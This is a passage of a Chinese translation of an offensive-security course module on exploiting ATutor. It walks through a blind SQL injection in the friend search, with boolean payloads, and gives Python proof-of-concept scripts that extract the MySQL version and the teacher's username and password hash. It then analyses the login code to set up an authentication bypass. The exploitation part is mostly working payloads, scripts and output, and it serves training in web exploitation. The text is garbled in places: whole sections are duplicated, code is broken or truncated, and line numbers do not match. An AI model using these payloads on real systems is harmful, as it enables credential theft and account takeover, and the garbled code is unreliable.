    if ($link) {
        return getProfileLink($id, $str);
    }
    return $str;
}
```

**列表 76 - `mods_/social/social/lib/friends.inc` 中的 `printSocialName` 函数实现**

`printSocialName` 函数（列表 76）将 `$member_id` 值（第 560 行）传递给 `vital_funcs.inc.php` 中定义的 `get_display_name` 函数。该函数所示所示。


```
if (substr($id, 0, 2) == 'g.' || substr($id, 0, 2) == '_G_') {
    $sql = "SELECT name FROM %s WHERE guest_id='%s'";
    $row = queryDB($sql, array(TABLE_PREFIX, $id), TRUE);
    $row['name'] = AT($display_name_formats[$config['display_name_format']], '', ' ');
} else {
    $sql = "SELECT login, first_name, second_name, last_name FROM %members WHERE member_id='%s'";
    $row = queryDB($sql, array(TABLE_PREFIX, $id), TRUE);
    $row['name'] = AT($display_name_formats[$config['display_name_format']], TRUE);
    $row['login'] = AT($row['first_name'], $row['second_name'], $row['last_name']);
}
```

列表 77 - `get_display_name` 函数代码段

在第 77 行，我们看到 `get_display_name` 函数使用传递的 `$member_id` 参数执行最终查询。查询结果返回给调用者。

这种执行逻辑有效地防止了我们向原始漏洞查询注入 `UNION` 有效荷，并将此 SQL 注入转变为经典的盲注（blind injection）。

与非常基础的 SQL 漏洞不同（后者允许攻击者通过渲染的 Web 页面直接获取所需数据），盲注 SQL 注入迫使我们推断想要的数据，因为这些数据永远不会通过查询结果返回。这可能是由于许多原因，例如 Web 逻辑拦截了查询结果并根据一组规则将其准备好显示，或者错误处理页的内容无论什么触发了错误都保持不变。

## 3.3.1 练习

1. 重复上一节涵盖的注入。
2. 在 `php.ini` 中禁用 `display_errors` 并重启服务。

## 3.4 盲注简述

在继续之前，我们来回顾一下盲注的工作原理。在传统的 SQL 注入中，攻击者能够在页面上看到结果。在盲注中，应用程序不直接返回数据，因此攻击者必须通过观察响应来推断信息。

盲注主要有两种类型：

- 布盲：攻击者询问真假问题并观察页面响应。
- 时间盲：攻击者让数据库在条件真时等待一段时间。

## 3.5 深入挖掘

在代码分析期间，我们发现了几处 ATutor 开发者使用名为 `$Slashes` 的函数处理用户输入。查看 PHP 文档证实该函数应该暴露我们的单引号，但实际上并没有。

### 3.5.1 当 $addslashes 不生效

这里需要注意的是，调用的函数名存储在变量中，我们并没有调用 PHP 原生的 `addslashes` 函数。作为回顾，这里是列表 63 部分：

```
37: //如果设置了 $GET['q']，处理 Ajax。
38: if (isset($_GET['q'])) {
39:     $query = $addslashes($_GET['q']);
40: 
41:     //通过搜索获取项目列表
42:     $search_result = searchfields($query);
```

列表 63 - 使用 Addslashes

因此我们需要验证此 `$addslashes` 变量是否已定义。在 `mysql_connect.inc` 文件中快速搜索有助于找到我们寻找的内容。

```
92: if (get_magic_quotes_gpc() == 1) {
93:     $addslashes = 'my_add_null_slashes';
94:     stripslashes = 'stripslashes';
95: } else {
96:     if (defined('MYSQL_ENABLED')) {
97:         //mysqli_real_escape_string 需要两个参数，这破坏了所有
98:         // 当前 $addslashes 只有一个参数。所以手动处理它们
99:         // 在清理期间要求手动运行 mysqli_real_escape_string
100:     $addslashes = 'trim';
101:     } else {
102:     $addslashes = 'mysql_real_escape_string';
103:     }
104:     $stripslashes = 'my_null_slashes';
105: }
```

列表 80 - 定义 $addslashes

查看代码 80，我们发现了一些有趣的地方。在第 92 行，对 Magic Quotes^28 进行了检查。如果开启了 Magic Quotes，则 $addslashes 将被定义为 `my_null_slashes`。在同一个文件中快速查看即可看到该定义。

```php
77: //functions for properly escaping input strings
78: function my_null_slashes($string) {
79:     global $db;
80:     if(defined('MYSQL_ENABLED')){
81:         return $db->real_escape_string(stripslashes($string));
82:     } else {
83:         return mysql_real_escape_string(stripslashes($string));
84:     }
85: }
86: 
87:
88: function my_null_slashes($string) {
89:     return $string;
90: }
```

列表 81 - 清洗定义函数

在我们受漏洞系统上，我们可以检查是否会进入该条件分支。

```bash
student@ator:-$ cat /var/www/html/magic.php
<?php
var_dump(get_magic_quotes_gpc());
?>
student@ator:-$ curl http://localhost/magic.php
bool(false)
student@ator:-$ 
```

列表 82 - 受漏洞系统未开启 magic quotes

这个结果是预期的，因为我们处理的 PHP 版本是 5.6.30，而 Magic Quotes 从 5.4.0 版本开始就已经被弃用了。

```bash
student@ator:-$ php -v
PHP 5.6.17-0debian (built: Jan 13 2016 09:10:12)
Copyright (c) 1997-2016 The PHP Group
Zend Engine v2.6.0, Copyright (c) 1998-2016 Zend Technologies
with Zend Opcache v7.0.6-dev, Copyright (c) 1999-2016, by Zend Technologies
student@ator:-$
```

列表 83 - 目标 PHP 版本

^28 https://en.wikipedia.org/wiki/Magic_quotes

AWAE Copyright © 2019 Offsec Services Ltd. All rights reserved.

## 攻击性安全

由于 Magic Quotes 是关闭的，回看列表 80 中的代码，我们知道我们将进入条件分支的 `else` 部分。第 96 行随后检查全局变量 `MYSQL_ENABLED` 是否已定义。如果是那样，那么 $Addlashes 就会变成 `trim` 函数，这可能是由于遗留代码以及过去 $addslashes 函数的使用方式导致的。

最后，通过搜索 `MYSQL_ENABLED` 的定义，我们在 `mysqli_funcs.inc.php` 中找到了它。

```
16: /* / test for mysqli presence */
17: if(function_exists('mysqli_connect')){
18:     define('MYSQL_ENABLED', 1);
19: }
```

> 列表 84- 在 PHP 中禁用 mysqli

考虑到 ATutor 安装在 PHP 5.6 上，这意味着 `mysqli_connect` 函数必须存在，因为在 Debian 的 `php5-mysql` 包中从 5.0 版本起它默认存在²⁹

因此，$addslashes 函数除了简单地 `trim` 输入外，什么也做不了。换句话说，当使用 $addslashes 函数时，并没有对输入进行任何验证！

### 3.5.2 参数化使用不当

对 ATutor 来说的是，这并不是真正的错误。应用程序还定义并实现了一个函数 `queryDB`，其目的是允许使用参数化查询。每当需要执行 SQL 查询时都会调用此函数，它定义在 `mysqli_connect.inc.php` 文件中。以下是它的工作原理：

```
107: /*
108: * This function is used to make a DB query the same along the whole codebase
109: @access public
110: @param $query Query string in the vsprint format. Basically the first
111: parameter of vsprintf function
112: @param $params=array() Array of parameters which will be converted and inserted
to to the query
113: @param $oneRow = false returns the first element of the return array if
set to TRUE. Basically returns the first row if it exists
114: @param $sanitize if true then addslashes will be applied to every
parameter passed into the query to prevent SQL injections
115: @param $callback_func callback name after db connection, default
mysqli_affected_rows
116: @param $array_type Type of array, MYSQL_ASSOC(default), MYSQL_NUM-
MYS_BOTH, etc.
117: @return ALWAYS returns result of the query execution as an array of rows. If
no results were found any array would be empty
118: @author Alexei Novak, Cinduy Li, Greg Gray
119: */
119: function queryDB($query, $params, $oneRow = false, $sanitize = true, $array_type = MYSQL_ASSOC, $callback_func = 'mysqli_affected_rows') {
120:   global $db;
121:   if (defined('MYSQL_ENABLED')){
122:     $sql = vsprintf($query, $params);
123:   } else {
124:     $sql = $query;
125:   }
126:   if ($sanitize) {
127:     foreach ($params as $i => $value) {
128:       // ... logic for sanitization ...
129:     }
130:
131:   $result = $db->query($sql);
132:   if ($oneRow) {
133:     return $result->fetch_array($array_type);
134:   }
135:   $rows = [];
136:   while ($row = $result->fetch_array($array_type)) {
137:     $rows[] = $row;
138:   }
139:   return $rows;
140: }
```

列表 85 - queryDB 函数实现

```php
309: $rows = queryDB($sql, array(), FALSE);
```

## 3.6 数据脱露

在开发一种可以从数据库提取任意数据的方法之前，我们必须记住负载不能包含任何空格，因为它们在构建查询时被作分隔符。作为提醒，有一段代码：

```php
271: $name = $addslashes($name);
272: $sub_names = explode(' ', $name);
``` 等。

```php
271: $name = $addslashes($name);
272: $sub_names = explode(' ', $name);
273: foreach($sub_names as $piece) {
274:   if ($piece == '') {
275:     continue;
276:   }
277:}
```

### 3.6.1 比较 HTML 响应

现在我们已经完全了解了这些限制，我们的第一个目标是创建一个非常简单的虚拟 TRUE/FALSE 注入查询。

这一步很重要，因为它允许我们识别一个基准，并观察注入的 TRUE 和 FALSE 子查询如何影响 HTTP 响应。一旦我们建立了这一点，我们将能够

# 攻击性安全

基本上是通过将虚假的 TRUE/FALSE 子查询替换为更复杂的布尔子查询，来向数据库提出任意问题。这将允许我们通过搜索 HTTP 响应来推断答案。

以下是为我们的目标可以实现的两个虚假子查询：

```
AAAA'//or/////(select(1)=1%23
Listing 90 - 能够评估结果为 'true' 的注入载荷
AAAA'//or/////(select(1)=0%23
Listing 91 - 查询评估结果为 'false' 的注入载荷
```

在注入子查询之前，让我们先看看它在 MySQL shell 中看起来是什么样。为了方便起见，我们将原始查询中的 * 语法 更改为 `select count(*)`。请注意，这仅仅改变了显示的输出结果，而不是 SQL 注入攻击返回的行数。

```
mysql SELECT count(*) FROM AT_members WHERE (first_name LIKE
'%%AAAA'//or/////(select(1))=-1# OR second_name LIKE
'%%AAAA'//or/////(select(1))=1# OR last_name LIKE
'%%AAAA'//or/////(select(1))=1# OR LOGIN LIKE
'%%AAAA'//or/////(select(1))=1#%
';
-> 
++++------+
| count(*) |
++++------+
| 1 |
++++------+
1 row in set (0.00 sec)
```

```
mysql SELECT count(*) FROM AT_members WHERE (first_name LIKE
'%%AAAA'//or/////(select(1))=0# OR second_name LIKE
'%%AAAA'//or/////(select(1))=0# OR last_name LIKE
'%%AAAA'//or/////(select(1))=0# OR login LIKE
'%%AAAA'//or/////(select(1))=0#');
-> 
++++------+
| count(*) |
++++------+
| 0 |
++++------+
1 row in set, 4 warnings (0.01 sec)
```

```
mysql>
```

从上面的列表中可以看出，TRUE/FALSE 虚假子查询控制了目前从漏洞查询中返回的结果数量。请注意，我们使用的查询与在 MySQL 日志文件中找到注入语句是完全相同的。这意味着它们也包含了我们的注释字符。一旦我们在 MySQL shell 中执行这些查询，我们将在日志文件中看到以下查询，这清楚地证明了

我们能够使用注释来终止查询，而且我们的字符串不需要满足所有的 4 个注入点。

```
322 Query SELECT count(*) FROM AT_members WHERE (first_name LIKE '%AAAA') or
(select 1)=0
322 Query SELECT count(*) FROM AT_members WHERE (first_name LIKE '%AAAA') or
(select 1)=1
```

Listing 93 - 验证查询注释终止


现在，让我们使用 `true` 语句和我们的概念证明脚本来确定漏洞。这将帮助我们验证一切是否仍在运行正常。

```
kali@atutor python poc.py atutor "AAAA")//or(//(select/1)=1%23
Response Headers:
{'Content-Length': '180', 'Content-Encoding': 'zip', 'Set-Cookie':
ATutorId=17ljncu2mg3n6gb332rm0; path=/Atutor/
ATutorId=12lehuumggbtd9c6572cm4r36; path=/Atutor/;Vary: 'Accept-Encoding', 'Keep-
Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.10 (Debian)', 'Connection': 'Keep-
Alive, 'Date': 'Tue, 24 Apr 2018 17:11:07 GMT', 'Content-Type': 'text/html;
charset=utf-8'}
Response Content:
Suggestions: offensive - Security
```

```
No errors found
kali@atutor$
```

Listing 94 - 通过搜索朋友执行虚假 SQL 注入

虽然我们正在做的验证查询 `(select)=1` 将始终为真这似乎显而易见，但我们必须记住，每个查询（包含所有子查询）都是良好的，不会引起任何数据库错误。我们还想确保通过将子查询比较从 `1` 更改为其他值来控制数据库是否返回结果。

```
kali@atutor python poc.py atutor "AAAA")//or(//(select/1)=0%23
Response Headers:
{'Content-Length': '290', 'Content-Encoding': 'zip', 'Set-Cookie':
ATutorId=1lpn8f91rg695032ubmgkm852; path=/Atutor/
ATutorId=4tbchrm3mg3kn386jg5q475r; path=/Atutor/;Vary: 'Accept-Encoding', 'Keep-
Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.10 (Debian)', 'Connection': 'Keep-
Alive, 'Date': 'Tue, 24 Apr 2018 17:12:05 GMT', 'Content-Type': 'text/html;
charset=utf-8'}
```

```
Response Content:
No errors found
kali@atutor$
```

Listing 95 - 通过搜索朋友执行虚假语句 SQL 注入

## 攻击性安全

如果我们查看 `94` 和 `95` 的响应，会注意到当注入的载荷使查询评估为 `FALSE` 时，响应是空的（`Content-Length: 20`）。然而，如果我们注入的载荷使查询评估为 `TRUE`，我们可以看到 `Content-Length` 为 `180`。这意味着我们可以通过将子查询比较从 `1` 更改为其他值来控制数据库是否返回结果。我们的概念证明脚本 `96` 包含了：

```python
import requests
import sys

def searchli(ip, query_type):
    target = "http://Atutor/index.php?q=%s" % ip
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if query_type==True and (content_length > 20):
        return True
    elif query_type==False and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print("usage: %s <ip>" % sys.argv[0])
        print("eg: 192.168.1.1")
        sys.exit(1)
    ip = sys.argv[1]
    false_injection_string = "AAAA")//or(//(select/1)=0%23"
    true_injection_string = "AAAA")//or(//(select/1)=1%23"

    if searchli(ip, true_injection_string, True):
        print("the target is vulnerable!")
    if searchli(ip, false_injection_string, False):
        print("the target is vulnerable!")

if __name__ == "__main__":
    main()
```

在运行 `96` 的概念证明后，我们可以确认 `TRUE` 和 `FALSE` 语句都是有效的。

```
kali@atutor python poc.py atutor
the target is vulnerable!
kali@atutor$
```

### 3.6.2 版本提取

我们终于达到了开发更复杂的查询以从数据库提取数据的点。第一个目标是提取版本。

在 `MySQL` 中，检索版本的查询如下：

```
mysql> select version();
+----------------------+
| version() |
+----------------------+
| 5.5.47-0deb8-log |
+----------------------+
1 row in set (0.01 sec)
```

Listing 98 - 识别数据库 `MySQL` 查询

然而，由于我们处理的是盲注 `SQL` 注入，我们必须采用字节逐的方法，因为我们无法从查询获取完整的响应。因此，我们需要构造一个布尔查询来替换之前部分使用的虚假 `TRUE`/`FALSE` 子查询。

我们使用的查询可以将数据库结果（`MySQL` 版本）的每个字节与我们选择的字符集进行比较。我们无法直接提取数据，但我们可以询问数据库第一个字符是否为“4”或“5”，例如，结果将是 `TRUE` 或 `FALSE`。

```
mysql select/**/(substring(select/**/version())),1,1))='4';
+--------------------------------+
| (substring(select version()), 1, 1))='4' |
+--------------------------------+
| 0 |
+--------------------------------+
1 row in set (0.00 sec)
```

```
mysql> select/**/(substring(select/**/version())),1,1))='5';
+--------------------------------+
| (substring(select version()), 1, 1))='5' |
+--------------------------------+
| 1 |
+--------------------------------+
1 row in set (0.02 sec)
```

Listing 99 - 选择版本的第一个字符并与值比较

如 `Listing 99` 所示，为了完成我们的任务，我们依赖于 `substring` 函数<sup>31</sup>。基本上，该函数从目标位置开始返回我们选择的任意数量。

<sup>31</sup> [https://www.w3resource.com/mysql/string-functions/mysql-substring-function.php](https://www.w3resource.com/mysql/string-functions/mysql-substring-function.php)

## 攻击性安全

高级 Web 攻击与利用

在此，值得提到的是，将结果字符转换为数值 `ASCII` 值并进行比较是一种良好的做法。这样做的主要目的是为了避免任何其他的有效负载（`payload`）限制，例如在注入字符串中使用引号。虽然对于这个特定的漏洞并不如此（我们只需要避开空格），但这是你应该习惯的写法。在 `MySQL` 中，执行此转换的相应函数是 `ascii(32)`。

```
mysql> select//+ascii(substring(select//+version()),1,1)=52;
| ascii(substring(select version()),1,1))=52 |
| 0 |
| 1 row in set (0.00 sec)
mysql> select//+ascii(substring(select//+version()),1,1)=53;
| ascii(substring(select version()),1,1))=53 |
| 1 |
| 1 row in set (0.00 sec)
```

列表 100 - 使用 `ascii` 函数避免有效负载限制

现在让我们使用 `MySQL` 布尔查询在浏览器中构造并测试整个注入：

失败查询（`False` Query）：

`q=test%27//*/or//*/**ascii(substring(select//+version()),1,1))=52%23`

成功查询（`True` Query）：

`q=test%27));//or//*/**ascii(substring(select//+version()),1,1))=53%23`

列表 101 - `TRUE`/`FALSE` `MySQL version()` 查询



<sup>32</sup> [https://www.w3resource.com/mysql/string-functions/mysql-ascii-function.php](https://www.w3resource.com/mysql/string-functions/mysql-ascii-function.php)

`AWAE` 版权 © 2019 `Offsec Services Ltd.` 保留所有权利。110

## 攻击性 - 安全

图 71：`MySQL version()` 真查询返回了预期的结果集

太好了！一切都按照我们的计划进行。我们终于达到了可以编写脚本、利用在本模块中研究的 `SQL` 注入漏洞以及刚刚掌握的 `MySQL version()` 布尔子查询，自动从 `MySQL` 数据库中检索数据的程度。我们需要对子查询进行调试，并遍历 `result()` 函数的每一个字符，将其与 `ASCII` 字符集<sup>32</sup> (`32-126`) 中的所有可能字符进行比较，结果在列表 102 中。

```python
import requests
import sys
def searchfriends_sqli(ip
```

<sup>32</sup> [en.wikipedia.org/wiki/ASCII](en.wikipedia.org/wiki/ASCII)

## 攻击性安全

```python
if __name__ == "__main__":
main()
```

列表 102 - 数据库提取原型证明脚本

如列表 103 所示，我们最终的证明脚本已成功提取了数据库版本！

```
kali@kali:~/atutor python poc3.py atutor
(+) Retrieving database version...
5.5.47-+debug8-log
(+) done!
kali@kali:~/atutor$
```

列表 103 - 通过盲注 `SQL` 注入漏洞提取 `MySQL` 版本

### 3.6.3 练习

- 1. 重现本节描述的攻击。确保你可以检索数据库版本。
- 2. 修改脚本以检查 `ATutor` 环境下的数据库用户是否正在以 `DBA` 身份运行。

## 3.64 进阶

审查 `index_public.php` 中的剩余代码。尝试识别通往漏洞函数的另一个路径，并相应地修改最终的数据外泄脚本。

## 3.7 绕过 ATutor 身份验证

到目前为止，我们已经找到了从漏洞的 `ATutor` 数据库中检索任意信息的方法，虽然这是一个进步，但我们需要看到如何利用这些信息。一个显而易见的选择是检索用户凭据，考虑到现代应用程序很少存储明文凭据（尽管确实存在），我们只能检索密码哈希值。`ATutor` 也是如此，即使拿到密码哈希值，我们仍然需要进行暴力破解攻击才可能获取任何明文密码。

另一个选项是调查登录实现并识别任何潜在的缺陷。由于密码破解差异很大，我们将深入查看 `ATutor` 应用程序中的日志实现。

首先，使用 `Burp` 代理捕获一个有效的登录请求，以便为我们的分析提供良好的起点。在向 Web 应用程序发送登录请求时，捕获到了一个与下图类似的请求：

## 攻击性安全



```
POST /ATutor/login.php HTTP/1.1
Host: atutor
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Referer: http://atutor/login.php
Cookie: ATutor=db5bb12krgz21mj4hcjrql;flash=no
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
```

## 攻击性安全

高级 Web 攻击与利用


在此，值得提到的是，将结果字符转换为数值 ASCII 值并进行比较是一种良好的做法。这样做的主要目的是为了避免任何其他的有效负载（`payload`）限制，例如在注入字符串中使用引号。虽然对于这个特定的漏洞并不如此（我们只需要避开空格），但这是你应该习惯的写法。在 `MySQL` 中，执行此转换的相应函数是`ascii(32)`。

```
mysql> select//+ascii(substring(select//+version()),1,1)=52;
| ascii(substring(select version()),1,1))=52 |
| 0 |
| 1 row in set (0.00 sec)
mysql> select//+ascii(substring(select//+version()),1,1)=53;
| ascii(substring(select version()),1,1))=53 |
| 1 |
| 1 row in set (0.00 sec)
```

列表 100 - 使用`ascii`函数避免有效负载限制

现在让我们使用`MySQL`布尔查询在浏览器中构造并测试整个注入：

失败查询（`False Query`）：

`q=test%27//*/or//*/**ascii(substring(select//+version()),1,1))=52%23`

成功查询（`True Query`）：

`q=test%27));//or//*/**ascii(substring(select//+version()),1,1))=53%23`

列表 101 - `TRUE`/`FALSE` `MySQL version()`查询


32 https://www.w3resource.com/mysql/string-functions/mysql-ascii-function.php

`AWAE`版权 © 2019 `Offsec Services Ltd.` 保留所有权利。110

# 攻击性安全

图 71：`MySQL version()`真查询返回了预期的结果集

太好了！一切都按照我们的计划进行。我们终于达到了可以编写脚本、利用在本模块中研究的`SQL`注入漏洞以及刚刚掌握的`MySQL version()`布尔子查询，自动从`MySQL`数据库中检索数据的程度。我们需要对子查询进行调试，并遍历`result()`函数的每一个字符，将其与`ASCII`字符集³²(32-126) 中的所有可能字符进行比较，结果在列表 102 中。

```python
import requests
import sys
def searchfriends_sqli(ip
```

³² en.wikipedia.org/wiki/ASCII

# 攻击性安全

```python
if __name__ == "__main__":
    main()
```

列表 102 - 数据库提取原型证明脚本

如列表 103 所示，我们最终的证明脚本已成功提取了数据库版本！

```
kali@kali:~/atutor python poc3.py atutor
(+) Retrieving database version...
5.5.47-+debug8-log
(+) done!
kali@kali:~/atutor$
```

列表 103 - 通过盲注`SQL`注入漏洞提取`MySQL`版本

### 3.6.3 练习

- 1. 重现本节描述的攻击。确保你可以检索数据库版本。

- 2. 修改脚本以检查`ATutor`环境下的数据库用户是否正在以`DBA`身份运行。

# 3.64 进阶

审查`index_public.php`中的剩余代码。尝试识别通往漏洞函数的另一个路径，并相应地修改最终的数据外泄脚本。

# 3.7 绕过 ATutor 身份验证

到目前为止，我们已经找到了从漏洞的`ATutor`数据库中检索任意信息的方法，虽然这是一个进步，但我们需要看到如何利用这些信息。一个显而易见的选择是检索用户凭据，考虑到现代应用程序很少存储明文凭据（尽管确实存在），我们只能检索密码哈希值。`ATutor`也是如此，即使拿到密码哈希值，我们仍然需要进行暴力破解攻击才可能获取任何明文密码。

另一个选项是调查登录实现并识别任何潜在的缺陷。由于密码破解差异很大，我们将深入查看`ATutor`应用程序中的日志实现。

首先，使用`Burp`代理捕获一个有效的登录请求，以便为我们的分析提供良好的起点。在向`Web`应用程序发送登录请求时，捕获到了一个与下图类似的请求：

# 攻击性安全


```
POST /ATutor/login.php HTTP/1.1
Host: atutor
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Referer: http://atutor/login.php
Cookie: ATutor=db5bb12krgz21mj4hcjrql;flash=no
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
```

## 高级Web攻击与利用

```php
60: if (isset($cookie_login, $cookie_password)) && isset($_POST['submit'])) {
61:     /* auto login */
62:     $this_login = $cookie_login;
63:     $this_password = $cookie_password;
64:     $auto_login = true;
65:     $used_cookie = true;
66: } else if (isset($_POST['submit'])) {
67:     /* form login * */
68:     $this_password = $_POST['form_password_hidden'];
69:     $this_login = $_POST['form_login'];
70:     $auto_login = isset($_POST['auto']) ? $_POST['auto'] : 0;
71:     $used_cookie = false;
72: } if (isset($_POST['submit'])) {
73:     /* form post on account registration/ */
74:     $this_password = $_POST['form_password_hidden'];
75:     $this_login = $_POST['form_login'];
76:     $auto_login = isset($_POST['auto']) ? $_POST['auto'] : 0;
77:     $used_cookie = false;
78: }
```

列表 108 - 通过特定条件设置`$this_login`和`$this_password`变量

由于我们不是访客用户，而是可以在`POST`请求中设置`submit`参数，因此我们将关注`login_functions.php`第 66 行的`else`分支。上面的代码分别设置了`$this_login`和`$this_password`变量。我们也会留意这一点。

接下来，我们考虑另一段代码，它对我们的关注点无关，尽管有几点需要指出：

```php
080: if (isset($this_login, $this_password)) {
081:     if (version_compare(PHP_VERSION, '5.1.0', '>=')) {
082:         session_regenerate_id(TRUE);
083:     }
084: }
085: if (isset($_GET['course'])) {
087:     $_POST['form_course_id'] = intval($_GET['course']);
088: } else {
089:     $_POST['form_course_id'] = intval($_POST['form_course_id']);
090: }
091:     $this_login = $addslashes($this_login);
092:     $this_password = $addslashes($this_password);
093: 
094: //检查此账户是否超过了最大尝试次数
095: $rows = queryDB("SELECT login, attempt, expiry FROM %smember_attempt
096: WHERE login='%s", $this_login, TRUE);
097:
098: if ($rows && count($rows) > 0) {
099:     list($attempt_login_name, $attempt_login, $attempt_expiry) = $rows;
100: } else {
101:     $attempt_login_name = '';
102:     $attempt_login = 0;
103:     $attempt_expiry = 0;
104: }
105:   if($attempt_expiry > 0 && $attempt_expiry < time())
106:     //如果已过期则清除旧记录
107:     queryDB("DELETE FROM %member_login WHERE login='%%s",
108:     array(TABLE_PREFIX, $this_login);
109:     $attempt_login = 0;
110:     $attempt_expiry = 0;
111: }
```

列表 109 - 额外的验证逻辑

由于我们在列表 108 中所示的`$this_login`和`$this_password`变量已经设置，我们知道我们将进入第 80 行的分支。那么，如果回想上一节的内容，第 91 行和 92 行的`$addslashes`函数调用实际上不会过滤任何内容。这段代码块的其余部分对我们没有任何影响，因此我们可以继续。

最后，我们移动到身份验证逻辑中最关键的部分，从第 111 行开始。

```php
111: if ($used_code)
112:   #A7755: 密码现在使用加盐存储
113:   $rows = queryDB("SELECT password, last_login FROM %members WHERE
114: login='%%s", array(TABLE_PREFIX, $this_login), TRUE);
115:   $cookieRow = $rows[0];
116:   $saltedPassword = $hash('sha512', $cookieRow['password']) . hash('sha512',
117: $cookieRow['last_login']);
118:   $row = queryDB("SELECT member_id, login, first_name, second_name,
119: last_name, preferences, password AS pass, language, status, last_login FROM %members
120: WHERE login='%%s' AND email='%%s', array(TABLE_PREFIX, $this_login, $saltedPassword,
121: $this_password), TRUE);
122: } else {
123:   $row = queryDB("SELECT member_id, login, first_name, second_name,
124: last_name, preferences, password AS pass, language, status, last_login FROM %members
125: WHERE login='%%s' OR email='%%s' AND CONCAT(password, '%%s')='%%s",
126: array(TABLE_PREFIX, $this_login, $SESSION['token']),
127: TRUE);
128: }
```

列表 110 - 必须在第二个分支

正如列表 110 所示，我们没有使用代码进行验证。在第 114 行，应用程序最终处理身份验证查询，如果我们关注该查询的重要部分，会看到：

```php
... WHERE login='%%s' OR email='%%s') AND CONCAT(password, '%%s')='%%s", array(TABLE_PREFIX, $this_login, $this_password);
```

列表 111 - 身份验证查询

首先，我们可以看到`$this_login`和`$this_password`变量被正确地传递给了`queryDB`。与本章开头描述的漏洞不同，这里没有`SQL`注入。然而，让我们关注决定身份验证结果的准则。如果我们进一步放大并将占位符替换为适当的值，将得到：

```
AND SHA1(CONCAT(password, $_SESSION['token']))=$this_password;
```

列表 117 - 身份验证查询的关键部分

我们可以控制`session token`，在列表 108 中可以看到`$this_password`也由我们控制。因此我们控制了这个等式的大部分。密码参数似乎是唯一的，当然，我们从上一节获取了它！

最后，如果我们成功让此查询返回结果，我们将登录，如下代码所示：

```php
117: } else
118:     $row = queryDB("SELECT member_id, login, first_name, second_name,
119: last_name, preferences, language, status AS pass, last_login FROM %members
120: WHERE login='%%s' OR LIKE '%%s') AND SHA1(CONCAT(password, '%%s'))='%%s",
121: array(TABLE_PREFIX, $this_login, $_session, true);
122: }
128: } else if (count($row) > 0) {
129:     $_SESSION['user_id'] = true;
130:     $_SESSION['member_id'] = intval($row['member_id']);
131:     $_SESSION['login'] = $row['login'];
132:     if ($row['preferences'] == "") {
133:         assign_session_prefs(unserialize(stripslashes($config["def_defaults"])));
134:     else
135:         assign_session_prefs(unserialize(stripslashes($row['preferences'])));
136:     $_SESSION['is_guest'] = 0;
137:     $_SESSION['language'] = $row['language'];
138:     $_SESSION['course_id'] = 0;
139:     $now = date("Y-m-d H:i:s");
```

列表 112 - 如果身份验证查询返回结果，登录尝试将通过

```bash
kali@kali:~/atutor python gethash.py tutor
(+) Retrieving username...
teacher
(+) done!
(+) Retrieving password...
8635fc4e2a0c7d92dee40eabf2fed76d577
(+) done!
(+) Credentials: teacher / 8635fc4e2a0c7d92dee40eabffed76d577
kali:~/atutor
```

如所示，通过更新之前的原型脚本，能够窃取教师用户的密码哈希值。此时，我们已经拥有并控制了满足身份验证查询所需的一切。

列表 113 - 使用`ATutor SQL`注入

### 3.7.1 练习

修改并使用以下原型来获取教师凭据


```python
import requests
import sys

def searchFriends(ip, inj_str):
    for j in range(32, 126):
        # 我们更新 sqli
        target = "http://%Atutor/mods/social/index_public.php?q=%s" %s % (ip, inj_str.replace("CHAR", '\\'))
        r = requests.get(target)
        print r.headers
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            return j
    return None

def inject(r, inj, ip):
    extracted = ""
    for i in range(1, r):
        injection_string = "test"*/+/or/**/acct(substring(%s,%d))=[CHAR]*/+/or/**/1'" %s (inj,i)
        retrieved_value = searchFriends(ip, injection_string)
        if(retrieved_value):
            extracted += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            print "\n(+) done!"
            break
    return extracted

def main():
    if len(sys.argv) != 2:
        print(\(\+) usage: %s <target>" % sys.argv[0])
        print(\(\+) eg: %s 192.168.121.103" % sys.argv[0])
        sys.exit(-1)

    ip = sys.argv[1]

    print(\(\+) Retrieving username...")
    username = inject(50, query, ip)
    print(\(\+) Retrieving password hash...")
    password = inject(50, query, ip)
    print(\(\+) Credentials: %s / %s" % (username, password)

if __name__ == "__main__":
    main()
```

## 3.7.2 进阶尝试

尝试修改上练习中的脚本，以便获取管理员账户的密码哈希值。

## 3.8 身份验证机制失效

在上一节中，我们看到 ATutor 的身份验证机制似乎取决于一个被假设为秘密的参数值。然而，如果该值可以被发现，身份验证机制的假设就会崩溃。

事实上，由于`token`在我们的控制之下，结果显示`$_POST[form_password_hidden]`的值很容易就能计算出来。

此逻辑代码可以在`ATutor/simplified/desktop/login.tpl.php`和`ATutor/themes/simplified_desktop/registration.tpl.php`以及以下列表中确认：

```
05: <script type="text/javascript">
06: /*
07: * 使用 sha加密登录密码
08: */
09: function encrypt_password() {
10: document.form.form_password_hidden.value =
11: hex_sha1(hex_sha1(document.form.form_password.value) + "<?php echo $_SESSION['token'];");
12: document.form.form_password.value = "";
13: return true;
14: }
15: </script>
```

